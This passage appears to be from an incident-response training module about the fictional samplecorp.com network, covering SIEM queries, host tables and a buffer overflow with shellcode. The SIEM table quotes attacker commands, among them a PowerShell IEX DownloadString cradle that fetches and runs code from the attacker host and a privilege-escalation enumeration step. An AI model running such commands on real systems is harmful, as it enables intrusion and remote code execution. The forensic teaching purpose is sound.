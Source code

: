 ![Command execution logs showing cmd.exe and PowerShell commands accessing directories and downloading from IP 192.168.220.66.](https://academy.hackthebox.com/storage/modules/238/5.png)

**Brief Analysis of 192.168.220.66**

From the logs, we identified four hosts on the network segment with corresponding IP addresses and hostnames. The host `192.168.220.66`, previously observed in the logs of `WKST01.samplecorp.com`, confirms the presence of an unauthorized entity in the internal network.

| IP | Hostname |
| --- | --- |
| 192.168.220.20 | DC01.samplecorp.com |
| 192.168.220.200 | WKST01.samplecorp.com |
| 192.168.220.101 | HR01.samplecorp.com |
| 192.168.220.202 | ENG01.samplecorp.com |

The below table is the result of a SIEM query that aimed to identify all instances of command execution initiated from `192.168.220.66`, based on data from `WKST01.samplecorp.com`.

| event\_data.CommandLine.keyword: Descending | beat.hostname.keyword: Descending | Count |
| --- | --- | --- |
| `cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1` | WKST01 | 5 |
| `cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1` | WKST01 | 4 |
| `powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX` | WKST01 | 2 |
| `whoami` | WKST01 | 1 |
| `...` | ... | ... |
| `powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m` | HR01 | 1 |

The results suggest that the unauthorized entity has successfully infiltrated the hosts: `WKST01.samplecorp.com` and `HR01.samplecorp.com`.

**HR01.samplecorp.com**

`HR01.samplecorp.com` was investigated next, as the unauthorized entity, `192.168.220.66`, was shown to establish a connection with `HR01.samplecorp.com` at the earliest possible moment in the packet capture.

![Network traffic logs filtered for IP 192.168.220.66, showing UDP and TCP packets with timestamps, source, destination, and protocol details.](https://academy.hackthebox.com/storage/modules/238/6.png)

Network traffic details suggest a buffer overflow attempt on the service running at port `31337` of `HR01.samplecorp.com`.

![Network traffic logs showing TCP packets between IPs 192.168.220.66 and 192.168.220.101, with hex data indicating a buffer overflow attempt.](https://academy.hackthebox.com/storage/modules/238/7.png)

The network traffic was exported as raw binary for further analysis.

![Hex dump showing EIP overwrite with '41' (A) characters and shellcode highlighted, indicating a buffer overflow exploit.](https://academy.hackthebox.com/storage/modules/238/8.png)

The extracted binary was analyzed in a shellcode debugger, `scdbg`.
